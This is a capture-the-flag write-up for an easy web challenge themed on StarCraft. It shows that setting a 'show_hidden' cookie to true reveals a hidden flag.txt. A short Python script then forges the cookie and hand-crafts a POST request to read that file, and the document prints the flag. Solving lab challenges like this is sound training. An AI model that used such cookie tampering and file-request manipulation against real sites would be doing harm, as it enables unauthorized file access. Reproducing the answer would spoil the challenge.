

# attack-strategies (ez)

### Description

The StarCraft III Interplanetary Newbie Championship is almost live and I was assigned to take care of teaching everyone in the Newbie-84 planet how to play. I made a blog so each individual can choose their favorite races and strategies to learn before the tournament. I will secretly participate and to give them a change, I hid my go to strategy somewhere on the website. Wanna try finding it?

[http://vespene-gas.hackers.best:31337/](http://vespene-gas.hackers.best:31337/)

### Files

None

### Solution

Theres a cookie called `show_hidden` and its set to `false`, if set to `true`.



the list of folders will have an extra option called flag.txt, but selecting it wont work cuz its a file, i hade to send the request manually and set the folder to `.` and file to `flag.txt`.

[solve.py](solve.py)

```python
import requests
url = 'http://vespene-gas.hackers.best:31337/'
headers = {
    'Cookie': 'show_hidden=true'
}
content = {
    'folder_select': '.',
    'file_select': 'flag.txt',
}
r = requests.post(url, data=content, headers=headers)

print(r.text) # -> shctf{get_zerg_rushed_nb}
```
